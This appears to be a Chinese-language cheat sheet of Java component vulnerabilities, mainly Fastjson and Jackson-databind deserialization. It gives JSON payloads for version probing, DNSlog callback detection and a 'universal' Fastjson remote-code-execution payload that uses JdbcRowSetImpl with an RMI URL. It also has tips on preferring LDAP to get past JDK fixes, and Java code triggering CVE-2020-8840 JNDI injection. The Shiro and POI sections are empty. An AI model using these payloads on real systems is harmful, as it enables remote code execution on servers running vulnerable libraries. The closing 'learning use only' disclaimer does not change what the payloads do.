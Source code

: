 

# JAVA组件漏洞


- [Fastjson](#Fastjson)

- [Apache-Poi](#Apache-poi)

- [Shiro](#Shiro)

- [Jackson-databind](#Jackson-databind)
  

## Fastjson

### 查看版本

[From 浅蓝：](https://b1ue.cn/archives/402.html)    ```1.{"@type":"java.lang.AutoCloseable"```


### 版本 <= 1.2.48

### 回显 

```
======= 回显 =======
{"@type":"java.net.Inet4Address", "val":"dnslog"}
{"@type":"java.net.Inet6Address", "val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":, "val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL", "val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL", "val":"dnslog"}]
Set[{"@type":"java.net.URL", "val":"dnslog"}
{{"@type":"java.net.URL", "val":"dnslog"}:0
```

### RCE

```
======= 通杀payload =======
{
    "rand1": {
      "@type": "java.lang.Class",
      "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "rand2": {
      "@type": "com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName": "rmi://127.0.0.1:1099/aaa",
      "autoCommit": true
    }
}
```

### 利用要点

(备注：根据实战中经验，更推荐使用Ldap协议进行漏洞利用）

RMI协议的利用方式 在JDK 6u132/7u122/8u113 及以上版本中修复了

LDAP协议的利用方式 在JDK 6u211/7u201/8u191 及以上版本中修复了

LDAP的利用方式要优于RMI, 且LDAP可以直接返回序列化对象, 绕过更高版本的JDK限制

当发现一台Redis的数据中含有@type的字样时，意味着AutoType多半是开的



## Apache-poi

## Shiro

## Jackson-databind

#### CVE=2020-8840

影响范围：2.0.0 <= FasterXML jackson-databind <= 2.9.10.2

不受影响版本：2.8.11.5 、 2.9.10.3

```
bjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";
try {
    mapper.readValue(json, Object.class);
} catch (IOException e) {
    e.printStackTrace();
}
```



## 声明

**以上仅用作学习用途**
